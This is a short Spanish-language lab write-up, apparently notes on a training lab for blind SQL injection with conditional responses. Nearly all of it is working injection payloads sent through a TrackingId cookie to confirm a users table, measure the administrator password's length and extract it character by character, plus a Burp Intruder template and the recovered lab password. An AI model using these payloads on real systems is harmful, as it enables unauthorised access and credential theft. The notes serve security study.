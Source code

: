 # 11 Lab: Blind SQL injection with conditional responses

Si el parametro de Cookie es correcto, nos mostrará el WELCOME BACK

```jsx
' AND '1'='1;
/// EXISTE TABLA USERS Y fila administrator
' AND (SELECT 'a' FROM users LIMIT 1)='a
' AND (SELECT 'a' FROM users WHERE username='administrator')='a
/// Obtener longitud de la clave, obtenemos que tiene 19 caracteres
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a

TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
// Probamos con Intruder
' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§;
son 19 caracteres, estos pueden ser minuscular y caracteres alfanumericos

administrator
vo60jlee4jbqx13nv8gg
```

![Untitled](11%20Lab%20Blind%20SQL%20injection%20with%20conditional%20respon%2012cfab5460ec8072bc6bf7127e8106af/Untitled.png)

![Untitled](11%20Lab%20Blind%20SQL%20injection%20with%20conditional%20respon%2012cfab5460ec8072bc6bf7127e8106af/Untitled%201.png)

![Untitled](11%20Lab%20Blind%20SQL%20injection%20with%20conditional%20respon%2012cfab5460ec8072bc6bf7127e8106af/Untitled%202.png)

![Untitled](11%20Lab%20Blind%20SQL%20injection%20with%20conditional%20respon%2012cfab5460ec8072bc6bf7127e8106af/Untitled%203.png)

![Untitled](11%20Lab%20Blind%20SQL%20injection%20with%20conditional%20respon%2012cfab5460ec8072bc6bf7127e8106af/Untitled%204.png)

![Untitled](11%20Lab%20Blind%20SQL%20injection%20with%20conditional%20respon%2012cfab5460ec8072bc6bf7127e8106af/Untitled%205.png)

hghgf